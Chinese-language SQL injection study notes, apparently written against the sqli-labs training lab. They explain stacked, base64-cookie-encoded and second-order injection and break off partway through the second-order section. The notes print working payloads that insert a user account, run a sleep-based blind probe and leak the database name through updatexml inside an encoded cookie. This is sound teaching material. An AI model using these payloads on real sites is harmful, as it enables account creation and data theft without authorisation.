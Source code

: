 ### ==堆叠注入==

https://www.cnblogs.com/backlion/p/9721687.html

stacked injections（堆叠注入）就是多条sql语句一起执行。在mysql 中，一条语句结尾加`;`表示语句结束，多语句之间以分号隔开。堆叠注入就是利用这个特点，在第二个SQL语句中构造自己要执行的语句。

比如：

```mysql
mysql> select * from users; select * from emails;
```

将堆叠注入运用于创建用户，以此迂回得到自定义的账户密码。但是前提是网站的管理员必须是高权限才能完全创建用户。也可以使用update更新管理员用户密码。

`id=1';insert into users(id,username,password) values ( 39, 'less38 ', 'hello ')--+`

当网站使用PDO技术（一种防护手段）执行SQL语句时，可以执行多语句，不过这样通常不能直接得到注入结果，因为PDO只会返回第一条SQL语句执行的结果， 所以在第二条语句中可以用update更新数据或者使用时间盲注获取数据。

`id=1';select if(substr(user(),1,1)='r', sleep(3), 1)--+`

### 加解密编码注入

某些注入点会对参数值进行编码。比如下面的cookie进行了base64编码：

```
GET /Less-21/index.php HTTP/1.1
Host: 10.1.1.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://10.1.1.133/Less-21/index.php
Connection: close
Cookie: uname=YWRtaW4%3D
Upgrade-Insecure-Requests: 1
```

`YWRtaW4%3D`是一个base64加密的字符串，其中%3D是编码中的`=`符号，把他发送到编码模块当中解密，得到明文admin。

所以构造好注入语句后，也需要进行编码，也就是说`admin' and 1=1`加密之后的值是`YWRtaW4nIGFuZCAxPTE=`。

而获取数据库名称的报错盲注的语句`admin' or updatexml(1,concat(0x7e,(database())),0) or '`加密后cookie值`Cookie: uname=YWRtaW4nIG9yIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChkYXRhYmFzZSgpKSksMCkgb3IgJwo=`

![](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728092746776.png)

### 二次注入

（sqlilabs less 24）

二次注入原理，主要分为两步

- 第一步：插入恶意数据

  第一次进行数据库插入数据的时候，仅仅对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据。但是，数据本身包含恶意内容。

- 第二步：引用恶意数据
